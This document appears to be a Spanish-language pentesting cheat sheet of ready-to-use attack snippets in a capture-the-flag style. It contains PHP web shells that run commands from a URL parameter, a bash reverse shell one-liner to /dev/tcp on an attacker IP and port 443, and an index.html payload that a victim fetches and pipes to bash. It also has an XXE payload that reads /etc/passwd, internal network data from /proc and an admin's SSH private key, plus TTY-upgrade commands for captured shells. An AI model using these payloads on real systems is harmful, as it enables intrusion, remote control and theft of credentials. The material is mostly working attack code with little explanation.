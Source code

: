 # Diferentes codigos ❮❯

## Tratamiento de la pseudo-consola
```bash
❯ python3 -c ‘import pty;pty.spawn(“/bin/bash”)’         # Para remplazar el comando de 'Script' por si no lo acepta la consola

❯ Script /dev/null -c bash
❯ Ctrl + z
❯ stty raw -echo; fg
❯ reset xterm

# Despues cambiamos esto para poder hacer Ctrl+ l y Ctrl + c
❯ echo $SHELL                                            # Para ver la ruta de shell y ver que valor tiene **/usr/bin/nologin**
❯ export SHELL=bash o ❯ export SHELL=/bin/bash           # Hacemos que shell ahora valga bash
❯ export TERM=xterm                                      # Para poder hacer Ctrl +c y Ctrl + l (l=ele)

# Ahora para modificar las dimensiones de Vim/nano debemos hacer lo siguiente.
❯ stty size                                              # Miramos las dimensiones de la consola
❯ stty rows 51 columns 189                               # Modificamos las dimensiones de la consola Vim/Nano
```

## PHP
Con este codigo le decimos a la pagina que queremos que cuando se ejecute comandos cmd los guarde en la variable, esto si estamos en un Framework

* **Code**
function onStart() {
	$this->page["myVar"] = shell_exec(\$\_GET['cmd']);
}

Y para hacerlo funcionar debemos de hacer lo siguiente en:
* **Markup**
{{this.page.myVar}}
Que eso es lo que va a recibir del condigo anterior

Para poder ejecutar comandos en la URL debemos de colocar al final lo siguinete **?cmd=whoami**

****
Permite ejecutar un comando a nivel de sistema en la web y poder poner **?cmd=whoami**

❯ **nano cmd.php**
❮?php 
		echo "❮prep❯" . shell_exec(\$\_GET\['cmd']) . "❮/prep❯";
?❯


## Bash ReverShell
Este comando siempre se ejecuta en la maquina victima para hacer una ReverShell desde una URL
❯ **bash -c 'bash -i >& /dev/tcp/❮IP❯/❮PORT❯ 0>&1'** 
* Para hacer una ReverShell
* IP -> Direccion de la maquina de atacante
* PORT -> Puerto del netcat mas comun 443

****
Hacemos un archivo index.html y al momento de recibir la peticion **Curl** de la maquina victima podremos ejecutar la revershell y este debe ser interpretado por bash
```bash
❯ nano index.html
	#!/bin/bash
	bash -i >& /dev/tcp/10.10.14.2/443 0>&1

	# IP = Nuestra IP de atacante
```


## XXE
Procedemos a crear un archivo asi:
❯ **vi file.xml** 
	❮?xml version=”1.0” encoding=”ISO-8859-1”?❯
		❮!DOCTYPE foo \[
		❮!ELEMENT foo ANY❯
	❮!ENTITY xxe SYSTEM “file:////opt/blog/server.js”❯]❯
	❮post❯
		❮title❯This is a test❮/title❯
		❮description❯Mensaje de prueba❮/description❯
		❮markdown❯&xxe;❮/markdown❯
	❮/post❯

Comandos que podemos meter en SYSTEM: 
**\file:///proc/net/fib_trie** Que nos muestra las direcciones IP que se encuetran ahi en la maquina 
**\file:///proc/net/tcp** Que nos muestra los puerto abiertos pero de manera interna, miramos que vienen en fomato hexadecimal y podemos desconvertirlos en alguna pagina web.
**\file:////etc/passwd** Ver los usuarios de la maquina 
**\file:///home/admin/.ssh/id_rsa** Tratar de listar la id_rsa de la maquina

## 
